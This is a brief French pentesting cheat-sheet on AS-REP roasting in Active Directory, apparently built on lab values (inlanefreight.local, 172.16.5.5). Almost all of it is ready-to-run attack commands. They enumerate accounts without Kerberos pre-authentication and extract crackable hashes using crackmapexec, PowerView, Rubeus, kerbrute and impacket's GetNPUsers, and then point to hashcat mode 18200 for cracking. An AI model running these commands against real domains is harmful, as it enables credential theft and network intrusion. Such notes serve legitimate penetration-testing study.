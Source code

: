 ```yaml
---
public: true # set to true to make the article publishable
---
```

Obtention de la liste des utilisateurs n'ayant pas besoin de préauthentifaction
## 
```powershell
cme ldap  $TARGET -u users.lst -p '' --asreproast asrep.txt

Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat /domain:<domain>

kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

Cassage du mot de passe avec hashcat  : mode 18200

[[docs/_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]
